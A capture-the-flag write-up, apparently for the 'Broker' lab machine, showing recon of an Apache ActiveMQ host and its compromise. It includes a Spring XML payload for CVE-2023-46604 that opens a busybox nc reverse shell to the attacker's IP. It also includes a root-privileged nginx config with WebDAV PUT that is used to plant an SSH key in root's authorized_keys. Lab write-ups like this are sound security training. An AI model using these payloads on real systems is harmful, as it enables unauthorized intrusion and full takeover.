

Broker

Recon
Starting with nmap. Alongside SSH the box exposes a full Apache ActiveMQ stack: the web console (80 and 8161, both behind a basic-auth ActiveMQRealm), MQTT on 1883, AMQP on 5672, STOMP on 61613, and the OpenWire transport on 61616, which advertises version 5.15.15.
[broker] nmap -Pn -v -T5 --min-rate 2000 -oN nmap -sSVC -p- 10.129.230.87
Nmap scan report for 10.129.230.87
Host is up (0.15s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_ basic realm=ActiveMQRealm
1883/tcp open mqtt
5672/tcp open amqp?
8161/tcp open http Jetty 9.4.39.v20210325
|_ basic realm=ActiveMQRealm
61613/tcp open stomp Apache ActiveMQ
61616/tcp open apachemq ActiveMQ OpenWire transport
|_ 5.15.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelThe console accepts the ActiveMQ default credentials admin:admin, and the welcome page confirms the broker and its version:
Welcome to the Apache ActiveMQ Console of localhost (ID:broker-33773-...)
Broker
Name localhost
Version 5.15.15Exploitation
Apache ActiveMQ 5.15.15 is vulnerable to CVE-2023-46604, an unauthenticated RCE in the OpenWire protocol on port 61616. When unmarshalling an exception, OpenWire reads a class name and a string argument from the wire and instantiates that class with the string as a constructor argument. Passing org.springframework.context.support.ClassPathXmlApplicationContext together with a URL makes the broker fetch an attacker-hosted Spring XML and build the beans it declares, so a ProcessBuilder bean runs an arbitrary command.
The Spring XML spawns a busybox nc reverse shell:
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://www.springframework.org/schema/beans
http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
<constructor-arg>
<list>
<value>busybox</value>
<value>nc</value>
<value>10.10.15.208</value>
<value>35337</value>
<value>-e</value>
<value>sh</value>
</list>
</constructor-arg>
</bean>
</beans>Host poc.xml over HTTP, then send the crafted OpenWire packet pointing at it with the public PoC (vulhub CVE-2023-46604). The broker fetches the XML and instantiates the bean, and the reverse shell comes back as the activemq service account:
[broker] python3 -m http.server 8000
[broker] python3 poc.py 10.129.230.87 61616 http://10.10.15.208:8000/poc.xml
[broker] nc -lnvp 35337
Listening on 0.0.0.0 35337
Connection received on 10.129.230.87 52032
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)activemq is a real user on the host with a home directory, so the user flag is right here in ~.
Privilege Escalation
Checking sudo rights, activemq can run the nginx binary as root with no password:
activemq@broker:~$ sudo -l
User activemq may run the following commands on broker:
(ALL : ALL) NOPASSWD: /usr/sbin/nginxRunning nginx as root means we control its configuration, and a config runs its workers as whatever user directive we set. I wrote a config that runs as root and serves the whole filesystem on a new port with directory listing and, importantly, the WebDAV PUT method enabled:
activemq@broker:~$ cat << EOF > /tmp/nginx_pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
worker_connections 768;
}
http {
server {
listen 1339;
root /;
autoindex on;
dav_methods PUT;
}
}
EOF
activemq@broker:~$ sudo nginx -c /tmp/nginx_pwn.confThe server now reads and writes the filesystem as root. Rather than just browse it, I PUT my public key straight into root's authorized_keys and SSH in:
[broker] curl -X PUT 10.129.230.87:1339/root/.ssh/authorized_keys -d "$(cat ~/.ssh/id_ed25519.pub)"
[broker] ssh root@10.129.230.87
root@broker:~# id
uid=0(root) gid=0(root) groups=0(root)Root shell, and /root/root.txt is done.